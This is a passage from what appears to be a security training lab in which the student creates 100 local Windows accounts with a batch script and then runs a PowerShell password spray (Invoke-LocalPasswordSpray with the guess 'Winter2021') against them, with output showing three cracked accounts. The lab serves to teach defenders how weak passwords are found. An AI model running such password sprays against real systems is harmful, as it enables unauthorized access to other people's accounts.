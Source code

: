 ### Finding Weak Passwords

Next, we are going to see just how dangerous SMB access can be.

For this part of this lab, we are going to create 100 users with a user generation script, then attack the passwords. From your administrative Command Prompt, change to the C:\Tools directory, as shown here:

    C:\Windows\system32> cd \Tools
    C:\Tools>

Next, run the user-gen.bat script to create multiple user accounts.

    C:\Tools> user-gen.bat
    The command completed successfully.

    The command completed successfully.

    The command completed successfully.

    The command completed successfully.

    The command completed successfully.
    ...

If you see lots of The command completed successfully messages, it means the script is working. If you see errors, double-check that you are running your Command Prompt as an administrator. 

### Configure a Password Spray Attack using PowerShell

Next, we will use a PowerShell module to implement a password spray attack against the Windows VM.

From the administrative Command Prompt (still in the C:\Tools directory), start PowerShell, as shown here:

    C:\Tools> powershell
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.

Next, load the module to implement the password spray attack, as shown here:

    PS C:\Tools> Import-Module .\LocalPasswordSpray.ps1

### Start the Password Spray Attack

From the PowerShell prompt, start the password spray attack. Run the Invoke-LocalPasswordSpray script, specifying a single password to use as a password guess on all local accounts. Start with a password guess of Winter2021, as shown here:

    PS C:\Tools> Invoke-LocalPasswordSpray -Password Winter2021
    ##### Making a list of all local users  #####
    A subdirectory or file C:\temp\ already exists.
    [*] Using C:\temp\UserList.txt as userlist to spray with
    [*] Password spraying has started. Current time is 1:29 PM
    [*] This might take a while depending on the total number of users
    [*] SUCCESS! User:Dennis Password:Winter2021
    [*] SUCCESS! User:Jack Password:Winter2021
    [*] SUCCESS! User:Jerry Password:Winter2021
    [*] Password spraying is complete
    [*] Any passwords that were successfully sprayed have been output to C:\temp\sprayed-creds.txt
